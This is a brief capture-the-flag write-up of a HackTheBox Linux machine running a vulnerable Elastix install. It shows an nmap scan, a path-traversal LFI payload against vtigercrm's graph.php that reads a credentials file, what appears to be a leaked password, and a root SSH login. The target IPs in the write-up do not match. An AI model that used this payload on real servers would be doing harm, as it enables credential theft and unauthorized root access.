

This box was an easy box from HackTheBox. It's OS is Linux and the entry point is with Web App. We have a vulnerable version of elastix installed on the server. Which we can do a LFI and get root creds. After that just login as root in the ssh. Easy.

I did not get an auto exploit for this because it's really easy to do.

# Diagram



# Enumeration

First step is to enumerate the box. For this we'll use `nmap`

```sh
nmap -sV -sC -Pn 10.10.10.75
```

> -sV - Services running on the ports

> -sC - Run some standart scripts

> -Pn - Consider the host alive


## Port 80

We try to open it on the browser


We search for exploit on elastix and found [this](https://www.exploit-db.com/exploits/37637) one

A LFI in this path

```
/vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action
```

And we found some user and passwords


jEhdIekWmdjE

# Root SSH

And we become root

Easy, easy!

```sh
ssh -oKexAlgorithms=+diffie-hellman-group1-sha1 10.10.10.7
```

